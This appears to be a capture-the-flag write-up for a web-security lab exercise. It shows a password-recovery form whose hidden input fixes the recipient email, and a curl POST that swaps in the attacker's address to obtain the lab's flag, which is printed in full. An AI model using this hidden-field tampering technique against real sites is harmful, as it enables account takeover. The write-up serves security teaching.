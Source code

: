 Visiting the sign in page from the home page give us a Login panel with username and password.

Using the I forgot my password option can make us recover the password.

Viewing the source code of the password recovery form

```
<form action="#" method="POST">
	<input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
	<input type="submit" name="Submit" value= "Submit">
</form>
```

It's obvious that it sends a recovery email to webmaster@borntosec.com

Changing that email to another one. By doing so it will sends us the recovery password link instead

Using Curl to send a post request with the new email in it

```
*[main][/goinfre/mashad/projects/darkly]$ curl -X POST -d "mail=example@gmail.com&Submit=Submit" http://10.12.177.91/\?page=recover
<!DOCTYPE HTML>
<html>
        ..
<center><h2 style="margin-top:50px;"> The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>

*[main][/goinfre/mashad/projects/darkly]$ 
```

